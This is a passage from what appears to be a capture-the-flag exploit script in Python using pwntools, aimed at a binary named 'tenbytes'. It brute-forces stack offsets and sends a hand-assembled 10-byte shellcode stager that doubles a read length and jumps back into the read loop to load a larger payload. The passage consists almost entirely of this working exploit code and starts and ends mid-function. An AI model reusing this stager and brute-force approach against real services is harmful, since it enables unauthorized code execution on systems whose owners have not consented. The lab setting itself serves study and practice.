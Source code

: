 ```python
    number = float(number)
    iterations = 0
    while number >= 10.0:
        iterations += 1
        number /= 2
    return iterations

local = False
#  local = True
debug = False

offset = 0

# the read call should be in the last 255 bytes
while offset <= 255:
    try:
        log.info("Trying offset {}".format(offset))
        if local:
            p = process("./tenbytes")
            if debug:
                gdb_cmd = []
                #  gdb_cmd.append("b *{:#08x}".format(0x00400697))
                gdb_cmd.append("c")
                gdb_cmd = "\n".join(gdb_cmd)
                gdb.attach(p, execute=gdb_cmd)
                raw_input("Press enter when GDB is running")
        else:
            p = remote("127.0.0.1", 10001)

        # EDX: how many bytes to read
        # so do a loop, double the bytes in EDX
        # till we have our desired value,
        # pop the return adress into rdi
        # and bruteforce our way back the stack
        # till we reach a point where the read loop
        # is executed again
        # after our loop we should be able to read
        # a bigger value to the stack and execute it
        payload  = ""
        payload += "\x01\xd2"       # add edx, edx
        payload += "\x5f"           # pop rdi
        payload += "\x48\x83\xef"   # sub rdi, xxx
        payload += chr(offset)
        payload += "\xff\xe7"       # jmp rdi
        payload = payload.ljust(10, "\x90")

        if len(payload) > 10:
            log.error("Payload too long! ({} bytes). Offset {}".format(len(payload), offset))

        log.info("Payload: {}".format(encode_payload(payload)))

        p.recvline() # receive greeting

        #  1:   0x10     = 10
        #  2:   0x14     = 20
        #  3:   0x28     = 40
        #  4:   0x50     = 80
        #  5:   0xA0     = 160
        #  6:   0x140    = 320
        #  7:   0x280    = 640
        #  8:   0x500    = 1280
        edx_should_be = 0x500 # length of the next read
        iterations = calculate_iterations(edx_should_be)
```
